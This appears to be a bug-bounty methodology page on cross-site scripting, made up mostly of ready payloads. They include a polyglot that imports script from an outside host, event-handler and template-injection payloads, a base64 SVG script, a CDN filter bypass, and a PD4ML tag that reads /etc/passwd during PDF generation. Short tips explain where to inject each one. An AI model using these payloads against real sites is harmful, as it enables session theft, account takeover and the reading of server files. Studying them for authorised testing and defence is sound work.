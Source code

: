 ### XSS all in one
```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\http://X55.is/.source))}//\76-->
```
### XSS payloads
`https://github.com/foospidy/payloads/tree/master/other/xss`
### Payload list
```
"style="position:fixed;top:0;left:0;border:999em solid green;" onmouseover="alert(document.domain)"
{{_c.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<body onpageshow=alert(1)>
<details open ontoggle="alert()">

HTML5 payloads
<video autoplay onloadstart="alert()" src=x></video>
<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

```
#### XSS escalation
`https://www.bugcrowd.com/blog/the-ultimate-guide-to-finding-and-escalating-xss-bugs/`
### Quick simple payload to use 
`"samsec%25%25"><u>`
### XSS mindmap
`https://raw.githubusercontent.com/cyberspacekittens/XSS/master/XSS2.png`
### XSS ployglot
```
\u0022\u003c%26quot;%26gt;%26lt;"';}};"></ScRipt><svg/oNLoad=confirm(69)>${{7*7}}
```

#### XSS in SVG image 
![image](https://github.com/Sameer484/methodology/assets/110039044/e40a3018-7707-457b-a054-bf3bb3832674)


##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````


#### There a small quirk in DOM xss
```
IF you see this code snippet
let a =createElement('div');
a.innerHTML="variable here"
b=sanitize(a);
and add to dom after here

we can execute xss before the sanitize or adding to dom. <img src=x onerror=alert(1)> actually executes before appending to the dom.
```

---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`
- Also, we can try to perfrom SSTI when there is pdf generation in backend. 
